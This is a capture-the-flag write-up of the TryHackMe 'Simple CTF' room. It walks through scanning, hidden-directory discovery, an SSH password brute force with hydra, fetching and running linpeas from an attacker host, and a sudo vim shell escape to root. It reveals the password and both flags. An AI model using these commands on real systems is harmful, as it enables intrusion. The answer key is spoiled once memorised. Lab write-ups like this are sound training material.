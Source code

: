 ![Simple CTF Banner](https://tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_Cover.png" alt="Simple CTF Cover">
</p>

# [Simple CTF](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/easyctf)

This guide contains the answer and steps necessary to get to them for the [Simple CTF](https://tryhackme.com/room/easyctf) room.

## Simple CTF 

In this room we

1. How many services are running under port 1000?

   To find these running services we use nmap.

   ```cmd
   sudo nmap 10.10.163.70 -sV -p-1000 -sC
   ```
   
   ![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_Nmap_Scan.png)

   ><details><summary>Click for answer</summary>2</details>

2. What is running on the higher port?

   I got trown of a little by the wording of the questions as the answer wasn't in the previous answer. For this answer I had to perform another scan where it scanned more ports.
   
   ```cmd
   sudo nmap 10.10.163.70 -sV -sC 
   ```
   
   ![Nmap Scan Extra](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_Nmap_Scan_Extra.png)

   ><details><summary>Click for answer</summary>ssh</details>

3. What's the CVE you're using against the application?

   This took me a while to find, as I ended up at dead ends when looking for CVE's for the various services that were running on the machine. None of these yielded any results:
   
   - Openssh
   - Apache2
   - Looking through `searchsploit` for any exploits

   ```cmd
   searchsploit openss
   ```

   ![Searchsploit](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_Searchsploit.png)
   
   The webserver didn't display anything interesting in our browser.
   
   ![Web Page](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_Web_Page.png)
   
   So lets try finding any hidden pages with `dirsearch`.
   
   ```cmd
   dirsearch -u 10.10.163.70 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r
   ```
   
   ![Hidden Web Page](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_Hidden_Web_Page.png)
   
   Looks like there is one! Navigating there, we see it is an installation of CMS.
   
   ![CMS Page](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_CMS_Page.png)
   
   We can find the version of the program at the bottom of the pages.
   
   ![CMS Version](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_CMS_Version.png)
   
   Now we can look for any [exploits](https://www.exploit-db.com/exploits/46635) related to this vesrion of CMS.
   
   ![CMS Exploit](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_CMS_Exploit.png)
   
   ><details><summary>Click for answer</summary>CVE-2019-9053</details>

4. To what kind of vulnerability is the application vulnerable?

   Looking up this exploit on CVE-details we can find more information about this exploit.
   
   ![CMS CVE](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_CMS_CVE.png)

   ><details><summary>Click for answer</summary>sqli</details>

5. What's the password?

   Again, this threw me off again, since I was now looking for credentials for the CMS service. But I didn't find anything. After that I started to look for credentials for the ssh service (since ftp had anonymous login enabled).
   
   I could use Hydra for this, but then I would want to have at least a username to work with. However, looking at one of the articles on the webpage, we see a name from the author. Could be wort it to try this name out.
   
   ![CMS Article](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_CMS_Article.png)
   
   Using the following command with `hydra` may give us the password of the account.
   
   ```cmd
   hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.163.70:2222 -t 4
   ```
   
   ![Hydra Password Crack](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_Hydra_Password_SSH.png)

   ><details><summary>Click for answer</summary>secret</details>

6. Where can you login with the details obtained?

   As mentioned before, this can be used to log in to the ssh service.

   ><details><summary>Click for answer</summary>ssh</details>

7. What's the user flag?

   Logging into the machine with ssh:
   
   ```cmd
   ssh mitch@10.10.163.70 -p 2222
   ```
   
   we find the user flag.
   
   ![User Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_User_Flag.png)

   ><details><summary>Click for answer</summary>G00d j0b, keep up!</details>

8. Is there any other user in the home directory? What's its name?

   To find other users we can use various commands.
   
   ```cmd
   ls -lh /home
   ```
   
   This simply looks through the `home` folder for any directories.
   
   ![SSH Users](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_SSH_Users.png)

   ><details><summary>Click for answer</summary>sunbath</details>

9. What can you leverage to spawn a privileged shell?

   This step also took me a little while as I had to look through various methods of elevating our [priveleges](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation
). The first thing I did was stabalize our shell with:
   
   ```cmd
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```
   
   Using `find / -perm -4000 2>/dev/null` didn't result in any executables that we could exploit.
   
   Next I tried using LinPeas. Started a server on our machine and transferring the script over. But that didn't work either.
   
   ```cmd
   python3 -m http.server 8080
   wget http://10.18.78.136:8080/linpeas.sh
   
   chmod x linpeas.sh
   ./linpeas.sh
   ```
   
   I looked at the kernel version with `uname -a` to find if it was vulnerable. Didn't give anything either.
   
   Finally, I looked at the executables we would be able to run with sudo.
   
   ```cmd
   sudo -l
   ```
   
   ![Sudo Permissions](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_Sudo_Permissions.png)
   
   Looks like there might be a program that we can exploit with this.

   ><details><summary>Click for answer</summary>vim</details>

10. What's the root flag?

   Lets take a look at [GTFObins](https://gtfobins.github.io/gtfobins/vim/) to find out what we can do with vim. We know our user can run `vim` as sudo, so that is where we should look.
   
   ![GTFO Vim](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_GTFO_VIM.png)
   
   Now we input the command into our shell to get an elevated shell.
   
   ```cmd
   sudo vim -c ':!/bin/sh'
   ```
   
   ![Root Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_Root_Shell.png)
   
   Looks like this worked. After stabalizing our shell again, we can navigate to the root folder and find our flag.
   
   ![Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/easyctf/Simple_CTF_Root_Flag.png)

   ><details><summary>Click for answer</summary>W3ll d0n3. You made it!</details>
